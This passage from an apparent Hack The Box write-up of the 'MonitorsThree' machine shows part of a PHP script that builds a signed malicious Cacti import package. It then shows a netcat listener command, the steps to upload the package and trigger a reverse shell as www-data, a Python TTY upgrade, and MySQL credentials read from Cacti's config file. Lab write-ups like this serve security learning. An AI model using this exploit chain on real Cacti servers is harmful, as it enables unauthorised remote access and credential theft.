 ```
file_put_contents(
    "test.xml",
    str_replace(
        "<signature></signature>",
        "<signature>" . base64_encode($signature) . "</signature>",
        $data
    )
);

system("cat test.xml | gzip -9 > test.xml.gz; rm test.xml");

?>

```
`php revshell.php`

On my attacker machine got my netcat listener ready:
`nc -lvnp 1234`

Within Cacti:
1. Navigate to `Import/Export -> Import Packages`
2. Upload `test.xml.gz` containing the payload.
3. Visit `http://cacti.monitorsthree.htb/cacti/resource/test.php`.

A reverse shell is established as `www-data`:
![](/assets/blogimages/Writeups/Hackthebox/MonitorsThree/MonitorsThree8.png)

## Getting User Flag

To enhance shell interaction, a TTY shell was obtained:
`python3 -c 'import pty; pty.spawn("/bin/bash")'`

Examining `/var/www/html/cacti/include/config.php` reveals MySQL credentials:
`cactiuser:cactiuser`
![](/assets/blogimages/Writeups/Hackthebox/MonitorsThree/MonitorsThree9.png)

